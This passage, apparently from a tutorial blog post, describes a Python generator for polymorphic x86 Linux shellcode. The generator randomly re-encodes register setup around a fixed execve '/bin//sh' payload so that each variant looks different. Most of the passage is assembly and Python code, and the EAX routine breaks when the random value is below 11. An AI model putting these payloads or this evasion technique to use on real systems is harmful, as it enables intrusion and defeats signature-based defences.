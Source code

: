 |---|-------|
|register|value|
| EAX | 0xb |
| ECX | 0x0 |
| EDX | 0x0 |
|---|-------|

EBX is filled up with a pointer, so I won't use math for it.

As simple PoC for my polymorphic generator python script, I will use SUB
instruction for EAX electing a random number and subtracting the correspondant
to reach 0xb.

To init ECX and EDX to 0, I'll use the following instructions:

{%highlight asm%}
	sub 	ecx, ecx
	sub 	edx, edx
	andn	ecx, ecx, ecx
	andn	edx, edx, edx

	push 0x3
	pop ecx
	sub cl, 0x3

	push 0x7F
	pop edx
	sub dl, 0x7F
{%endhighlight%}

The following python routine is the one used to create shellcode variations.

{%highlight python%}
def exec_sub_strategy():

    # EAX = 0xb

    init_eax = ["\\x29\\xc0\\xb0\\x??\\x2c\\x$$"];
    par = randint(1, 255)
    eax = "".join(init_eax)
    eax = eax.replace("??", str(format(par, 'x')))
    eax = eax.replace("$$", str(format(par-11, 'x')))

    init_ecx = ["\\x31\\xc9", "\\xc4\\xe2\\x70\\xf2\\xc9", "\\x6a\\x??\\x59\\x80\\xe9\\x??"]
    shuffle(init_ecx)
    par = randint(1, 127)
    ecx = "".join(init_ecx[0])
    ecx = ecx.replace("??", str(format(par, 'x')))

    init_edx = ["\\x31\\xd2", "\\xc4\\xe2\\x68\\xf2\\xd2", "\\x6a\\x??\\x5a\\x80\\xea\\x??"]
    shuffle(init_edx)
    par = randint(1, 127)
    edx = "".join(init_edx[0])
    edx = edx.replace("??", str(format(par, 'x')))

    init_blk = [eax, ecx, edx]
    shuffle(init_blk);
    return "".join(init_blk)+"\\xeb\\x03\\x5b\\xcd\\x80\\xe8\\xf8\\xff\\xff\\xff\\x2f\\x62\\x69\\x6e\\x2f\\x2f\\x73\\x68";

{%endhighlight%}
